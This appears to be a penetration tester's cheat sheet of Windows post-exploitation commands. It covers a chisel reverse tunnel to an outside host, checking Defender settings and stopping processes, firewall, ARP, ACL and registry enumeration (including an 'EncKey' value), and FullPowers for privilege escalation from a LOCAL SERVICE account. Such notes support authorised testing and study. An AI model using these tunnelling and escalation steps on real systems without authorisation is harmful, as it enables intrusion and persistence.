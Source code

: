 # Tricks

```powershell
# Run an executable as a process in the background
Start-Process -FilePath ".\chisel.exe" -ArgumentList "client 192.168.1.10:8000 R:8888:localhost:8888" -NoNewWindow

# Check for defender
Get-MpPreference

# Stop processes
Get-Process $PROCESS_NAME | Stop-Process
Get-Process | Where-Object { $_.ProcessName -like '*$PROCESS_NAME*' } | Stop-Process

# Open explorer in the current directory
Invoke-Item .

---

# Check inbound/outbound firewall rules
netsh advfirewall firewall show rule name=all dir=in
netsh advfirewall firewall show rule name=all dir=out

# Check ARP table
arp -a

# Check environment variables
Get-ChildItem env:

# List permissions
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
Get-Acl Microsoft | Select-Object -ExpandProperty Owner

# Query registry key
reg query "HKLM\SOFTWARE\Key" /s
reg query "HKLM\SOFTWARE\Key" /v EncKey
```

**Notable Groups:**

```bash
Administrators             # Full control
Remote Desktop Users       # Remote access via RDP
Remote Management Users    # Remote access via WinRM
```

`icacls` permissions mask table (ACE = access control entry)

- `F` - Full access
- `M` - Modify access
- `RX` - Read and execute access
- `R` - Read-only access
- `W` - Write-only access

Inheritance rights ([MSDN](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls))

- `I` - Inherit. ACE inherited from the parent container
- `OI` - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
- `CI` - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
- `IO` - Inherit only. ACE inherited from the parent container, but does not apply to the object itself. Applies only to directories.
- `NP` - Do not propagate inherit. ACE inherited by containers and objects from the parent container, but does not propagate to nested containers. Applies only to directories.

**Role is `nt authority\local service` without `SeImpersonatePrivilege` present:**

Commonly the role for a web server running on a windows computer (such as `xampp`)

[FullPowers](https://github.com/itm4n/FullPowers)

```powershell
.\FullPowers.exe
```
